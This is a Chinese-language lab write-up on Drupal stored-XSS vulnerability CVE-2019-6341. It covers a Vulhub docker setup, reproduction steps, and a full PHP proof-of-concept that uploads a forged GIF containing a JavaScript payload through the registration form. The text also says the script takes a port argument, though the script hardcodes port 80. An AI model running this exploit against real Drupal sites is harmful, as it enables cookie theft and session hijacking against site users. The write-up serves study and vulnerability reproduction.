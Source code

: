 # Drupal XSS漏洞 CVE-2019-6341

## 漏洞描述

影响软件：Drupal

方式：通过文件模块或者子系统上传恶意文件触发XSS漏洞

参考链接：[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

效果：JS代码执行（Cookies 资料窃取、会话劫持、钓鱼欺骗、网页挂马等）

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

该漏洞需要利用drupal文件模块上传文件的漏洞，伪造一个图片文件，上传，文件的内容实际是一段HTML代码，内嵌JS，这样其他用户在访问这个链接时，就可能触发XSS漏洞。

Drupal 的图片默认存储位置为 `/sites/default/files/pictures/<YYYY-MM>/`，默认存储名称为其原来的名称，所以之后在利用漏洞时，可以知道上传后的图片的具体位置。

使用PoC上传构造好的伪造GIF文件，PoC参考[thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal)的PoC。

如图，输入如下命令，即可使用`vulhub/drupal/CVE-2019-6341`目录下的poc构造样本并完成上传功能，第一个参数为目标IP 第二个参数为目标端口。

```bash
php cve-2019-6341-exp.php 192.168.11.1 8080
```

![image-20220222212248553](images/202202222122602.png)

上传成功后，访问图片位置，即可触发 XSS 漏洞。

Tips:

1. 因为 Chrome 和 FireFox 浏览器自带部分过滤 XSS 功能，所以验证存在时可使用 IE 浏览器。
2. 访问的图片名称为_0的原因是因为 Drupal 的规则机制，具体原理见[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

![image-20220222213034577](images/202202222130628.png)

> 此处复现不不成功，虽然xss代码上传成功，但是没有被正确解析。
>
> 只有IE浏览器可以正确解析xss并弹框。

## 漏洞POC

```php
<?php
/*
usage: php poc.php <target-ip>

Date: 1 March 2019
Exploit Author: TrendyTofu
Original Discoverer: Sam Thomas
Version: <= Drupal 8.6.2
Tested on: Drupal 8.6.2 Ubuntu 18.04 LTS x64 with ext4.
Tested not wokring on: Drupal running on MacOS with APFS
CVE : CVE-2019-6341
Reference: https://www.zerodayinitiative.com/advisories/ZDI-19-291/

*/

$host = $argv[1];
$port = 80;

$pk =   "GET /user/register HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"Referer: http://".$host."/user/login\r\n".
	"Connection: close\r\n\r\n";

$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

preg_match('/name="form_build_id" value="(.*)"/', $out, $match);
$formid = $match[1];
//var_dump($formid);
//echo "form id is:". $formid;
//echo $out."\n";
sleep(1);

$data = 
"Content-Type: multipart/form-data; boundary=---------------------------60928216114129559951791388325\r\n".
"Connection: close\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"mail\"\r\n".
"\r\n".
"test324@example.com\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"name\"\r\n".
"\r\n".
"test2345\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"files[user_picture_0]\"; filename=\"xxx\xc0.gif\"\r\n".
"Content-Type: image/gif\r\n".
"\r\n".
"GIF\r\n".
"<HTML>\r\n".
"	<HEAD>\r\n".
"		<SCRIPT>alert(123);</SCRIPT>\r\n".
"	</HEAD>\r\n".
"	<BODY>\r\n".
"	</BODY>\r\n".
"</HTML>\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][fids]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][display]\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_build_id\"\r\n".
"\r\n".
//"form-KyXRvDVovOBjofviDPTw682MQ8Bf5es0PyF-AA2Buuk\r\n".
$formid."\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_id\"\r\n".
"\r\n".
"user_register_form\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"contact\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"timezone\"\r\n".
"\r\n".
"America/New_York\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_name\"\r\n".
"\r\n".
"user_picture_0_upload_button\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_value\"\r\n".
"\r\n".
"Upload\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_drupal_ajax\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme]\"\r\n".
"\r\n".
"bartik\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme_token]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[libraries]\"\r\n".
"\r\n".
"bartik/global-styling,classy/base,classy/messages,core/drupal.ajax,core/drupal.collapse,core/drupal.timezone,core/html5shiv,core/jquery.form,core/normalize,file/drupal.file,system/base\r\n".
"-----------------------------60928216114129559951791388325--\r\n";

$pk = 	"POST /user/register?element_parents=user_picture/widget/0&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0\r\n".
	"Accept: application/json, text/javascript, */*; q=0.01\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"X-Requested-With: XMLHttpRequest\r\n".
	"Referer: http://" .$host. "/user/register\r\n".
	"Content-Length: ". strlen($data). "\r\n".
	$data;

echo "uploading file, please wait...\n";

for ($i =1; $i <= 2; $i++){
$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

echo "Got ".$i."/2 500 errors\n";
//echo $out."\n";
sleep(1);
}

echo "please check /var/www/html/drupal/sites/default/files/pictures/YYYY-MM\n";

?>
```


